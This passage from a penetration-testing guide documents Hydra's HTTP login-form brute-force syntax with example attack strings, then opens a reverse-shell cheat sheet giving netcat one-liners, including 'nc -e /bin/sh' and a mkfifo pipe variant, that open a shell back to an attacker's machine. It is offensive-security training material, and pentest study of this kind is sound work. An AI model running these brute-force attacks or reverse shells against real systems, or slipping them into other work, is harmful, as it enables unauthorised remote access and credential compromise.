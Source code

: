   - Note:
    - 'h' will add the user-defined header at the end regardless it's already being sent by Hydra or not.
    - 'H' will replace the value of that header if it exists, by the one supplied by the user, or add the header at the end

  - Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\). All colons that are not option separators should be escaped (see the examples above and below). You can specify a header without escaping the colons, but that way you will not be able to put colons in the header value itself, as they will be interpreted by hydra as option separators.

Examples:

```none
"/login.php:user=^USER^&pass=^PASS^:incorrect"
"/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
"/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
"/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
"/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"
```

```none
.. Todo:: Add a program/binary that an easier syntax, ncrack maybe? Elaborate on the examples, eg. what they will do once executed?
```

## Reverse Shells

Once we have figured out some vulnerability or misconfiguration in a running service which allows us to make a connection back to our attack machine, we would like to set up a reverse shell. This can be done through version methods e.g. by using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. The section below has been mostly adapted from [PentestMonkey Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  and [Reverse Shell Cheat sheet from HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and more.

### netcat (nc)

TCP Mode

- with the -e option

  ```none
  nc -e /bin/sh 10.1.1.1 4444
  ```

- without -e option

  ```none
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
  ```

Tip

f in this case is a file name, if you want to have more then one reverse shell with this method you will have to use another letter (a ... z) then the one you used intially.
